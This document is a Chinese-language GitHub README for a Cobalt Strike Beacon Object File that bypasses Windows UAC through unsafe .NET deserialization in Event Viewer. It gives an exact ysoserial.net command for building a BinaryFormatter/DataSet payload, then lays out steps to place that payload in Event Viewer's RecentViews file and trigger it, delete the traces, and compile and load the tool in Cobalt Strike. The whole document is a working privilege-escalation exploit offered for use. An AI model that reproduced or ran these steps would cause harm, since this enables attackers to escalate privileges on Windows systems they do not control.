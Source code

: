 # EventViewerBypassUacBof
EventViewer Bypass Uac Bof

## 主要参考了如下作者的代码：
https://github.com/Octoberfest7/EventViewerUAC_BOF

https://github.com/netero1010/TrustedPath-UACBypass-BOF

https://github.com/CsEnox/EventViewer-UACBypass


## 执行流程
Bypass过程利用了Unsafe .Net Deserialization in Windows Event Viewer ，程序主要完成了如下流程：

1、使用ysoserial.net（https://github.com/pwntester/ysoserial.net）生成payload（.\ysoserial.exe -o base64 -f BinaryFormatter -g DataSet -c "forfiles /c C:\Users\test\Desktop\TESTdir\9999.exe" >b64.bin）

2、使用convertbin.py将payload转化为最终payload文件

3、上传payload文件至C:\Windows\Tasks\

4、拷贝文件并将文件命名为：%LOCALAPPDATA%\Microsoft\Event Viewer\RecentViews

5、启动EventViewer，这将导致EventViewer去执行payload文件

6、清理payload文件

## 使用方法：

1、编译：
x86_64-w64-mingw32-gcc -o EventViewerUAC.x64.o -c main2.c

2、CS加载 EventViewerUAC_gg.cna

3、EVUAC Payload Env （Env 通过执行 shell set |findstr \"LOCALAPPDATA\" 获得）
